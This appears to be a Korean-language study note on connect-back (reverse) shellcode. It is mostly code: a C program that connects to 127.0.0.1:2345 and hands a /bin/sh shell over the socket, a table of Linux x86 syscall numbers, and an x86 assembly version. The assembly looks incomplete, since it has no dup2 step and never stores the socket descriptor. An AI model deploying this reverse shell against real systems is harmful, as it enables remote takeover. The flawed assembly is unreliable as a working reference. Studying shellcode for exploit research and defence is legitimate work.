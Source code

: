 ```yaml
---
title: Reverse shellcode (Connect-Back shellcode)
date: 2019-01-12 15:00:53
categories:
- Shellcode Exploit
- Reverse shellcode
tags:
- Reverse shellcode
- Connect-Back shellcode
---
```


공격자에게 연결 요청하는 shellcode



```c
#include <stdio.h>
#include <unistd.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>
 
int main(void)
{
        int i, server_sockfd;
        socklen_t socklen;
        struct sockaddr_in server_addr; // 서버 정보 구조체
 
        char *argv[] = { "/bin/sh", NULL};
        server_addr.sin_family = AF_INET; // 주소 형식
        server_addr.sin_port = htons(2345); // port
        server_addr.sin_addr.s_addr = inet_addr("127.0.0.1"); // address
        // socket fd 생성
        server_sockfd = socket( AF_INET, SOCK_STREAM, 0 );
    	// 서버에 접속
        connect(server_sockfd, (struct sockaddr *)&server_addr, sizeof(server_addr));
 		// socket 함수에 의해 생성된 표준 스트립 fd 복제(링크)
        for(i = 0; i <= 2; i++)
                dup2(server_sockfd, i);
 		// shell 실행
        execve( "/bin/sh", argv, NULL );
}
```



| function | sysnum(eax) | subcallnum(ebx) | args(ecx)                            | edx  |
| -------- | ----------- | --------------- | ------------------------------------ | ---- |
| socket   | 102 (0x66)  | 1               | AF_INET = 2, SOCKET_STREAM = 1, 0    | NULL |
| connect  | 102 (0x66)  | 3               | sockfd, sockaddr, len(sockaddr) = 16 |      |
| dup2     | 63 (0x3f)   | sockfd          | fd=0,1,2                             |      |
| execve   | 11          | "/bin/sh"       | {"/bin/sh", NULL}                    | NULL |



```asm
mov al, 0x66
xor ebx, ebx
cdq
inc ebx
push edx
push ebx
push 0x2
mov ecx, esp
int 0x80

mov al, 0x66
push ebp
push di
inc ebx
push bx
mov ecx, esp
push 0x10
push ecx
push edx
mov ecx, esp
inc ebx
int 0x80

push edx
push 0x68732f2f
push 0x6e69622f
mov ebx, esp
mov eax, edx
mov al, 0xb
int 0x80
```



####reference

​	https://www.lazenca.net/display/TEC/04.Reverse+Shellcode

​	https://systemoverlord.com/2018/10/30/understanding-shellcode-the-reverse-shell.html

​	http://d4m0n.tistory.com/93





